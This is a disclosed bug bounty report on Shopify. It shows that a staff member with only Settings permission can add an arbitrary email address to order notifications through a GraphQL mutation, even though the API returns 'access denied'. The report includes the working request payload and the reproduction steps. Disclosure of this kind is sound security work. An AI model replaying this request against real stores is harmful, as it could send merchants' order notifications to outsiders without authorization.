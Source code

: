 # staffOrderNotificationSubscriptionCreate Is Not Blocked Entirely From Staff Member With Settings Permission

## Report Details
- **Report ID**: 1102652
- **URL**: https://hackerone.com/reports/1102652
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-02-13T10:11:14.066Z
- **Disclosed**: 2022-02-09T20:58:34.749Z

## Reporter
- **Username**: ngalog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

I found that the GraphQL call `staffOrderNotificationSubscriptionCreate` is not blocked from the staff member with Settings permission

## Steps to reproduce
- Login as a staff member with `Settings` permission
- Make this GraphQL call to `https://yoursubdomain.myshopify.com/admin/internal/web/graphql/core?operation=SwitcherNoStores`

```
{"query": "mutation{staffOrderNotificationSubscriptionCreate(notificationRecipientIdentifier:\"testingforshopify@ngailong.com\",notificationRecipientType:EMAIL){staffOrderNotificationSubscription{id}}} "}
```

- The response you see should be `Access denied for staffOrderNotificationSubscription field. Required access: `read_notification_settings` access scope. Also: User must have access to orders.`, and you would think this means a dead end, but reality is you have already added the order notification to the settings
- Visit `/admin/settings/notifications` as an admin, you should notice the email `testingforshopify@ngailong.com` is added to the order notification already

## Screenshot video
{F1194404}

## Impact

I found that the GraphQL call `staffOrderNotificationSubscriptionCreate` is not blocked from the staff member with Settings permission

## Attachments
- poc_settings_email.mov
